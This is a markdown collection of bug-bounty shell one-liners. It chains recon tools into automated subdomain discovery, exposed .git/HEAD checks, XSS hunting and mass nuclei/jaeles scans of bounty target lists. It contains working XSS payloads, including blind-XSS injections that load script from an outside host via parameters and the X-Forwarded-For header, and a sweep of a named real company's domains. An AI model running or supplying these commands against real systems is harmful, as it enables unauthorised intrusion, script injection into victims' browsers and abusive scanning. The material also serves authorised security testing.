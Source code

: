# oneliner collections

## Find Subdomain
> projectdiscovery
```
subfinder -d target.com -silent | httpx -silent -o urls.txt
```

## find .git/HEAD
> @ofjaaah
```
curl -s "https://crt.sh/?q=%25.tesla.com&output=json" | jq -r '.[].name_value' | assetfinder -subs-only | sed 's#$#/.git/HEAD#g' | httpx -silent -content-length -status-code 301,302 -timeout 3 -retries 0 -ports 80,8080,443 -threads 500 -title | anew
```

## Find XSS
> cihanmehmet
### Single target
```
gospider -s "https://www.target.com/" -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe -o result.txt
```
### Multiple target
```
gospider -S urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe -o result.txt
```

## XSS hunting multiple
> @ofjaaah
```
gospider -S domain.txt -t 3 -c 100 |  tr " " "\n" | grep -v ".js" | grep "https://" | grep "=" | qsreplace '%22><svg%20onload=confirm(1);>'
```

## BXSS - Bling XSS in Parameters
> [ethicalhackingplayground](https://github.com/ethicalhackingplayground/bxss/)
```
subfinder -d target.com | gau | grep "&" | bxss -appendMode -payload '"><script src=https://hacker.xss.ht></script>' -parameter
```

## Blind XSS In X-Forwarded-For Header
> [ethicalhackingplayground](https://github.com/ethicalhackingplayground/bxss/)
```
subfinder -d target.com | gau | bxss -payload '"><script src=https://hacker.xss.ht></script>' -header "X-Forwarded-For"
```

## Gxss
> @KathanP19
```
echo "testphp.vulnweb.com" | waybackurls | httpx -silent | Gxss -c 100 -p Xss | grep "URL" | cut -d '"' -f2 | sort -u | dalfox pipe
```

## Dump In-Scope Assests from Bounty Program
### BugCrowd Programs
> @dwisiswant0
```
curl -sL https://github.com/arkadiyt/bounty-targets-data/raw/master/data/bugcrowd_data.json | jq -r '.[].targets.in_scope[] | [.target, .type] | @tsv'
```

## Recon.dev
> @ofjaaah
```
curl "https://recon.dev/api/search?key=YOURAPIKEY&domain=target.com" |jq -r '.[].rawDomains[]' | sed 's/ //g' | anew |httpx -silent | xargs -I@ gospider -d 0 -s @ -c 5 -t 100 -d 5 --blacklist jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt | grep -Eo '(http|https)://[^/"]+' | anew
```

## Jaeles scan to bugbounty targets.
> @KingOfBugbounty
```
wget https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/domains.txt -nv ; cat domains.txt | anew | httpx -silent -threads 500 | xargs -I@ jaeles scan -s /jaeles-signatures/ -u @
```

## Nuclei scan to bugbounty targets.
> hack_fish
```
wget https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/domains.txt -nv ; cat domains.txt | httpx -silent | xargs -n 1 gospider -o output -q -s ; cat output/* | egrep -o 'https?://[^ ]+' | nuclei -t ~/nuclei-templates/ -o result.txt
```